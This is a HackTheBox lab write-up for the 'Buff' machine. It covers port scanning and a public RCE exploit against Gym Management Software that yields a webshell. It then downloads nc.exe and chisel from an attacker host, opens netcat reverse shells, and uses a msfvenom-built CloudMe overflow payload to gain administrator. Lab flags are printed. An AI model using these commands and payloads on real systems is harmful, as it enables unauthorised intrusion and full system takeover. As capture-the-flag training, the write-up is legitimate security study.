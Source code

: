 ```yaml
---
title: "Buff"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Buff

![](../assets/Pasted%20image%2020250604235743.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.198
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-05 00:06 CEST
Nmap scan report for 10.10.10.198
Host is up (0.041s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Microsoft Windows 10 1909 - 2004 (91%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   40.94 ms 10.10.14.1
2   41.27 ms 10.10.10.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.83 seconds
```

`Port` `8080` shows a site about fitness.

![](../assets/Pasted%20image%2020250605001326.png)

The site is made with `Gym Management Software 1.0`.

![](../assets/Pasted%20image%2020250605001640.png)

## Initial Access

Using `searchsploit`, get the unauthenticated RCE one and execute it.

![](../assets/Pasted%20image%2020250605102916.png)

```shell
$ python2 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                 
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun
```

Get the flag:

```shell
C:\xampp\htdocs\gym\upload> type C:\users\shaun\desktop\user.txt
�PNG
▒
47643683f9c91176910ec622fc4b20f9
```

## Privilege Escalation

Transfer `nc.exe` to the host and get a reverse shell

```shell
C:\xampp\htdocs\gym\upload> powershell.exe -c iwr -uri http://10.10.14.14:8000/nc.exe -outfile C:\users\shau
�PNG
▒
```

```shell
C:\xampp\htdocs\gym\upload> C:\users\shaun\nc.exe 10.10.14.14 5555 -e cmd.exe
```

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.198] 49833
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```

There is a `CloudMe_1112.exe` in `shaun`'s downloads folder. We can see in the official documentation that the default port is `8888`.

```shell
PS C:\users\shaun\downloads> netstat -ano | findstr 8888
netstat -ano | findstr 8888
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       4996
```

Transfer `chisel` to expose the port.

```shell
$ ./chisel server --port 5555 --reverse                        
2025/06/05 23:07:25 server: Reverse tunnelling enabled
2025/06/05 23:07:25 server: Fingerprint PfHQvvl62LmfoeerrJeKwQTGw8wsiz5DkAonqhI5IYA=
2025/06/05 23:07:25 server: Listening on http://0.0.0.0:5555
2025/06/05 23:08:59 server: session#1: tun: proxy#R:8888=>localhost:8888: Listening
```

```shell
PS C:\users\shaun\downloads> iwr -uri http://10.10.14.14:8000/chisel.exe -outfile chisel.exe
iwr -uri http://10.10.14.14:8000/chisel.exe -outfile chisel.exe
PS C:\users\shaun\downloads> .\chisel.exe client 10.10.14.14:5555 R:8888:localhost:8888
.\chisel.exe client 10.10.14.14:5555 R:8888:localhost:8888
2025/06/05 22:09:00 client: Connecting to ws://10.10.14.14:5555
2025/06/05 22:09:00 client: Connected (Latency 40.8734ms)
```

Using `searchsploit`:

![](../assets/Pasted%20image%2020250605231529.png)

Get the first one and edit it; we need to change the payload from executing the calculator to a reverse shell.

```shell
$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```

Set the listener and execute the script.

```shell
$ sudo rlwrap nc -lnvp 443                     
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.198] 49935
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
d9125a41ab7239a80a93d04b6999f906
```
